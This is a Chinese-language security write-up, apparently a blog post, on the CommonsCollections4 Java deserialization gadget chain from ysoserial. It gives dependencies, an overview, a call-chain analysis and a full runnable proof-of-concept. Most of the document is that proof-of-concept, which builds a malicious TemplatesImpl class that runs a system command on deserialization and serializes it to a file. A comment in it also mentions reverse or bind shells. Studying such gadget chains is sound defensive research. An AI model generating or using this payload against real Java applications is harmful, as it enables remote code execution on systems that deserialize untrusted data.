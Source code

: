 ## 环境准备

JDK1.8(8u421)这里ysoserial没有提及JDK版本的影响，我以本地的JDK8版本为准、commons-collections4(4.0 以ysoserial给的版本为准)、javassist(3.12.1.GA)

cc4.0、ClassPool

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.12.1.GA</version>
</dependency>
```

CC4概述

CC4 是 CC2+CC3 的一个变种，用 PriorityQueue 的 TransformingComparator 触发 ChainedTransformer，再利用 InstantiateTransformer 实例化 TemplatesImpl，主要核心还是CC2，只是最后的构造的payload触发从InvokeTranformer变成了InstantiateTransformer ，从而使得Templates构造方法能够被触发最终触发恶意代码。

## POC如下

还是对ysoserial的代码的修改版本，可以直接本地运行。

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsCollections4 {

    static String serialFileName = "commons-collections4.ser";

    public static void main(String[] args) throws Exception {
//        cc4byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
    public static void cc4byYsoSerial() throws Exception {

        String executeCode = "Runtime.getRuntime().exec(\"cmd /c start\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        // =============================================================================
        ConstantTransformer constant = new ConstantTransformer(String.class);
        // mock method name until armed
        Class[] paramTypes = new Class[] { String.class };
        Object[] args = new Object[] { "foo" };
        InstantiateTransformer instantiate = new InstantiateTransformer(
                paramTypes, args);


        // grab defensively copied arrays
        Field iParamTypes = instantiate.getClass().getDeclaredField("iParamTypes");
        iParamTypes.setAccessible(true);
        paramTypes = (Class[])iParamTypes.get(instantiate);
        Field iArgs = instantiate.getClass().getDeclaredField("iArgs");
        iArgs.setAccessible(true);
        args = (Object[])iArgs.get(instantiate);

        ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });

        // create queue with numbers
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));
        queue.add(1);
        queue.add(1);
        // swap in values to arm
//        Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
        Field iConstant = constant.getClass().getDeclaredField("iConstant");
        iConstant.setAccessible(true);
        iConstant.set(constant, TrAXFilter.class);
        paramTypes[0] = Templates.class;
        args[0] = templates;

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(queue);
        oos.flush();
        oos.close();
    }
}
```

## 运行调试

来弹个窗口吧

![image-20241119142652458](./main.assets/image-20241119142652458.png)

## 调用链分析

调用链就是CC2和CC3的结合版本，如下：


* PriorityQueue.readObject()
  * PriorityQueue.heapify()
    * PriorityQueue.siftDown()
      * PriorityQueue.siftDownUsingComparator()
        * TransformingComparator.compare()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()		TrAXFilter
            * InvokerTransformer.transform()		  Templates
              * TrAXFilter()				           Templates
                * TemplatesImpl.newTransformer()
                * TemplatesImpl.getTransletInstance()
                * ......
                * 触发静态代码调用